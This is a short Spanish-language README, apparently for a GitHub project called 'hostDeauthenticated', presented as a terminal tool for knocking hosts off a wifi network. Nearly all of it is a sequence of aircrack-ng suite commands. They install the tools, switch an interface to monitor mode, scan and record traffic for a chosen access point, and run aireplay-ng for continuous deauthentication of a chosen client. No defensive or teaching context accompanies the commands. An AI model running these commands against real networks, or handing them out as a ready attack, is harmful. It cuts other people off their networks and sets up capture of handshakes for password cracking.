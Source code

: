 # hostDeauthenticated
Aplicacion de terminal para deautenticar host de una red wifi

sudo pacman -S aircrack-ng

airmon-ng check
airmon-ng check kill

airmon-ng start <INTERFACE> 
airmon-ng stop <INTERFACE>

1) airodump-ng <INTERFACE>
2) airodump-ng --bssid <BSSID> --channel <CH> --write <Path> <INTERFACE>
3) aireplay-ng -0 0 -a <BSSID> -c <STATION> <INTERFACE>
